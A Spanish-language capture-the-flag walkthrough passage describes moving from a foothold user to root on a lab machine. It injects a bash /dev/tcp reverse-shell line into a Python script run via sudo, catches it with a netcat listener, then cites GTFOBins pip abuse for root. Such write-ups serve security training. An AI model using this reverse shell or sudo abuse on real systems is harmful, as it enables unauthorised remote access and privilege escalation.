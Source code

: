 ![[Pasted image 20240405040044.png]]

Ahora lo que haremos será realizar una Reverse Shell.

Primero levantamos nuestro netcat.

	sudo nc -lvp 1234

![[Pasted image 20240405041741.png]]

Luego modificamos el script en la maquina victima e integraremos en el código nuestro comando.

	os.system("/bin/bash -c '/bin/bash-i >& /dev/tcp/10.0.2.6/1234 0>&1'")

![[Pasted image 20240405041512.png]]

> [!TIP] Command Reverse Shell Condition
> Recuerda agregar el comando **os.system("/bin/bash")** debajo del "import .."

Ahora, debemos recordar que para ejecutar el script, debemos hacerlo mediante el usuario **arsene**.

![[Pasted image 20240405041926.png]]

Así que ejecutamos el comando.

	sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

![[Pasted image 20240405043412.png]]

Como podemos observar, hemos pasado del usuario **ixex64** al usuario **arsene**, que es un paso mas cerca del root!.

![[Pasted image 20240405043456.png]]

> [!FAILURE] Importante
> Debes tener en cuenta que aveces la que falla es la maquina en si, asi que debes reiniciarla. En nuestro caso nos mando un mensaje de error, y al salirnos para ir a reiniciarla, inmediatamente se conecto a nuestro netcat.

### Post - Explotación/Escalado de privilegios

Ahora, si notamos bien. Vemos que que nos entrega una ruta llamada **/usr/bin/pip** lo cual podemos explotar por que existe una herramienta para ello y podemos encontrar en  el siguiente enlace **[gtf /bin/pip](https://gtfobins.github.io/gtfobins/pip/)**

![[Pasted image 20240405052921.png]]

Ejecutamos los comandos de **SHELL**

![[Pasted image 20240405053639.png]]

Y hemos conseguido entrar como ROOT!.

![[Pasted image 20240405053944.png]]

